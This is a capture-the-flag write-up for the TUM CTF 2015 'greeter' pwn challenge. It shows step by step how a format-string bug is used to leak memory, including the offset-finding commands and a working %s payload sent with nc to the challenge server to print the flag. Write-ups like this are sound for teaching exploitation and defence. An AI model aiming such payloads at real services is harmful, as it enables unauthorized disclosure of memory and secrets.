 [](ctf=tum-ctf-teaser-2015)
[](type=pwn)
[](tags=format-string)

#greeter (pwn 15)

```bash
$ file ./greeter
./greeter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2657dbbc9fbf7a266d2d963b4644d1c3b44d8304, not stripped
```
So we have a not stripped file.

```bash
$ ./greeter 
Hi, what's your name?
AAAAA
Pwn harder, AAAAA!
```
We can send in a name. It suffers form format string vulnerability.
```
$ ./greeter 
Hi, what's your name?
%x.%x
Pwn harder, b5eeae30.7227d7a0!
```
A little bit of analysis shows that the file reads in flag.txt to an address called flag which is not on the stack. Its on the heap. Since it is not on the stack we can't use repeated %x to read it. Also since the file is not stripped we can see the locations of each variable.
```bash
gdb-peda$ p &flag 
$1 = (char (*)[256]) 0x600ca0 <flag>
```

%s is a format specifier that prints out a string ftarting from a given pointer.
Now just figure out the offset.

```bash
$ python -c 'print "%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAA"' | ./greeter 
Hi, what's your name?
Pwn harder, ffa0b88010c3b7a0.1096f620.10e32700.78252e78.78257825.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.41414141.0.0.0.0.0.0.AAAA!
````

Payload format:
> format_string+p64(address)

```
>>> p64(0x600ca0)
'\xa0\x0c`\x00\x00\x00\x00\x00'
```

Finally
```bash
$ python -c 'print "%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s.%x.%x.%x.%x.%x.%x.\xa0\x0c`\x00\x00\x00\x00\x00"' | nc 1.ctf.link 1030
Hi, what's your name?
Pwn harder, 720fe23030bcc7a0.30900620.30dea700.78252e78.78257825.252e7825.2e78252e.78252e78.252e7825.2e78252e.78252e78.hxp{f0rm4t_sTr1ngs_r0ck}
.a.0.0.0.0.0.�
              `!
```

Flag
> hxp{f0rm4t_sTr1ngs_r0ck}